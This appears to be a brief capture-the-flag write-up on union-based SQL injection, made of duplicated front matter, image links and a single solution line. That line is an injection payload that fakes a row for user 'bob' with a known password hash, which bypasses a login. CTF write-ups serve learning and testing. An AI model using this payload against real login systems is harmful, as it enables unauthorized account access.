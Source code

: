```yaml
---
title: "Union Sql Injection"
date: 2025-06-11T12:32:30+03:00
section: "ms ctf"
categories: ["ms ctf"]
---
```

---
section: "ms ctf"
categories: ["ms ctf"]
title: "Union Sql Injection"
date: 2025-05-21
---

![[Pasted image 20250521130606.png]]

the solution 
![[Pasted image 20250521130644.png]]

the query run was
```sql
' UNION SELECT 1, 'bob', '5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8', ''--
password: password
```

